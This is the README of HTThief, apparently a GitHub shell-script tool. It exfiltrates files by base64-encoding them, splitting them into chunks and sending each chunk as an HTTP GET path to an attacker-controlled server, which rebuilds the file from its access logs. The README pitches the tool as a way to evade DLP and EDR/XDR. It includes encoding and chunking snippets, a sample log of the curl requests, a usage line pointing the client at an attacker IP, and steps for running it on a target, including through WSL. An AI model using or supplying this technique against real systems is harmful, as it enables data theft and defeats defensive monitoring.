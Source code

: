 # HTThief

HTThief was developed by me and it's not just another tool - it improves a unexplored data exfiltration technique, with the intention of serving as a (simple but effective) way to transfer files protected by DLP, E/XDR and etc (exfiltration) in a stealthy way. Convert any type of file (eg executables, Office, Zip, images) into URLs and send them via simple HTTP GET.


# Author
Vinicius Vieira


# Why is this different from every other HTTP exfiltration technique?

The most common data exfiltration techniques via HTTP are based on POST method (uploding files, encrypted or not). These techniques can be easily detected, either by anomalous behavior of the endpoint (uploading a file on an unknown website, for example) or even by traffic (through DLP, IDS/IPS for example), as well as being easily mitigated.

HTThief differs from the others because it encodes the raw file data in Base64 and divides it into small strings, which are passed using the GET method to the server instead of POST. Each GET calls the attacker's IP/domain plus a chunk of base64 as part of the requested address. Obviously the address does not exist in the destination, however the behavior of the client machine is similar to a user accessing a certain resource on a website rather then uploading a file.

On the server side, HTThief collects logs from received GETs, processes the data and reassembles the file in its original form.

This makes detection and mitigation very difficult, because through this process of steganography of the file in many URLs, it becomes very dificult to detect that each one is actually a piece of a certain file.

# How it works?

How HTThief works is based on two assumptions: 

1) encode the file in base64 to be sent; and
   
    ```
    ### encoding the file
    echo "Enconding the file..."
    ENCODED=$(base64 $path)
    echo $ENCODED > /tmp/ax0c.txt
    ```
    
2) divide it into pieces to make it difficult to decode the file during sending
   
    ```
    ### organizing the file
    echo "Organizating the file..."
    tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
    FILE="/tmp/ax0d.txt"
    ```
By default base64 will generate strings of 76 characters with a nullbyte (which in ASCII is understood as a space) at the end, instead of a new line. 

![h6](https://github.com/V1n1v131r4/HTThief/assets/1153876/4612fce1-19e5-4d74-90de-cb117e493545)

HTThief takes advantage of this to replace these spaces with new lines by means of ```tr -s``` and send the HTTP GET of each line of the encoded file, that is, pieces of 76 characters. 

```
tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
```

That way, even if there is some soul that decodes during tracing, this piece of code could not be identified as the original file.

```
┌──(kali㉿kali)-[~/HTThief]
└─$ cat /var/log/apache2/access.log
 
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET //9j/4QCKRXhpZgAATU0AKgAAAAgABQENAAIAAAAnAAAASgEaAAUAAAABAAAAcgEbAAUAAAABAAAA HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /egEoAAMAAAABAAIAAAITAAMAAAABAAEAAAAAAAA8P3BocCBwaHBpbmZvKCk7IF9faGFsdF9jb21w HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /aWxlcigpOyA/PgAAAAAASAAAAAEAAABIAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB/8AAEQgDIAMg HTTP/1.1" 404 432 "-" "curl/7.88.1"
```



# Usage

The use of HTThief is simple:

```
kali@kali:~ ./client.sh --ip <HTThief_Server_IP>
```

You can replace the parameter for attacker IP address or attacker domain, wherever.


# Tutorial

HTThief is based on two scripts, one to be executed on the server/attacker machine (who will receive the file) and another on the client (machine that will send the file):

```
┌──(kali㉿kali)-[~/HTThief]
└─$ ls -l
total 8
-rwxr-xr-x 1 kali kali 2681 Aug 10 09:13 client.sh
-rwxr-xr-x 1 kali kali  846 Aug 10 09:11 server.sh

```

After choosing the file to be sent, first you must run ```server.sh``` on the attacking machine:

![h1](https://github.com/V1n1v131r4/HTThief/assets/1153876/48c9c3eb-250b-429d-9b0a-9af753e87709)



On the target machine, run ```client.sh``` and fill in the absolute path of the file that should be sent:

![h2](https://github.com/V1n1v131r4/HTThief/assets/1153876/d708c3de-0553-49c5-9319-fde9c393f906)


After sending the file and **you got the "Done!" response**, go back to the attacking machine, type "yes" for the script flow to end.

**WARNING**: The larger the file, the longer the upload process takes. Be patient and wait until it is fully shipped.

At the end of receiving, choose the original extension of the file so that it is originally reassembled on the attacking machine.


![h3](https://github.com/V1n1v131r4/HTThief/assets/1153876/e3a3f84d-3f13-4908-acf9-26d5766edcb0)

![h4](https://github.com/V1n1v131r4/HTThief/assets/1153876/86d891d5-5aa2-45a0-93d2-781ac72f7277)




# Do you want to use in a Windows environment?

 
Although HTThief is written in Shell Script, it can be easily used by any user who has access to WSL in a Windows environment. Just copy the client.sh to the Linux distribution running on WSL and run it, pointing to the file you want to exfiltrate from the Windows environment.

![WhatsApp Image 2023-08-12 at 12 14 01](https://github.com/V1n1v131r4/HTThief/assets/1153876/934c839c-dc5e-47e0-ae07-c033a3319eb1)




# Requires

On attacker (server) machine you will need the Apache2 installed.



# To Do

- replace Apache2 requirenment to Go wbserver.
